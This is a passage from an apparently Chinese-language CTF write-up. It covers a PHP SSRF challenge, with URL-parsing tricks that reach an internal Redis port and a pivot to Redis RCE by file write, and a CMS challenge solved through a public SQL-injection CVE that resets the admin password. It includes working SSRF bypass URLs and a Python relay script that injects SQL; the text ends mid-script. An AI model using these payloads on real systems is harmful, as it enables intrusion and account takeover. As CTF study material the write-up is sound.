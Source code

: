 ```php
}

highlight_file(__FILE__);
curl($_GET['url']);

```

emmm，这题是原题。https://tyaoo.github.io/2020/08/31/2020-GACTF-web/ ,我是后来才知道的。。。。

绕过端口限制的方法一种是：`http://foo@127.0.0.1:6379%20@www.baidu.com/`

还有一个是：`http:/ctf.ccreater.top:5000/`

`var_dump(parse_url)`

```
array(2) {
  'scheme' =>
  string(4) "http"
  'path' =>
  string(23) "/ctf.ccreater.top:5000/"
}
```

然后curl去访问是正常的

接下来按着那个wp走发现flask,继续ssrf，发现redis，原本是wp里面的redis主从复制RCE直接打这题的，但是试了好久都没成功，明明有向我发送数据

redis ssrf还有一种RCE方法是写文件，这一题就是这么干的，因为那个wp我一直没往这方面想

然后去看了写redis发现它的版本是2.x主从复制RCE的那个exp是针对3.x和4.x  ：(

## easyzzz

百度一波网上的cve解出这题

简单说下过程

/plugins/webuploader/js/webconfig.php

拿到后台地址  admin539/

https://xz.aliyun.com/t/7414 ，利用前台sql注入修改管理员密码

搭个转发的方便测试

```python
import requests
from flask import Flask,request
app = Flask(__name__)


def access(exp):
    burp0_url = "http://eci-2ze9cofh8j38ebxctduq.cloudeci1.ichunqiu.com:80/plugins/sms/sms_list.php?act=del"
    burp0_cookies = {"Hm_lvt_2d0601bd28de7d49818249cf35d95943": "1604567758,1604568322,1604568358,1605921830", "Hm_lpvt_2d0601bd28de7d49818249cf35d95943": "1606016268", "PHPSESSID": "3fe85864bb4ad1dc9f25e5271281baf9", "__jsluid_h": "85077cc270ca34654c02f2479fcb9390", "zzz254_adminpass": "0"}
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close", "Content-Type": "application/x-www-form-urlencoded"}
    burp0_data = {"id[={exp} ;-- ]".format(exp=exp): "1"}
    return requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

@app.route('/')
def hello_world():
    payload = request.args.get("exp","")
```